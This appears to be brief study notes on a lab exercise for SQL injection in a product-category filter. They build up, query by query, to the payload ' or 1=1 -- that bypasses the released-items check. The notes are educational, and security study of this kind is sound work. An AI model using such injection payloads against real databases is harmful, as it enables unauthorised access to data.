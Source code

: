 SQL Injection Product category

SELECT * FROM products WHERE category = 'Gifts' AND released = 1

End goal : display all products in any category, both released and unreleased.

SELECT * FROM products WHERE category = ''' AND released = 1

SELECT * FROM products WHERE category = ''--' AND released = 1

SELECT * FROM products WHERE category = ''-- {This will run in the background: Displaying Nothing}

SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1
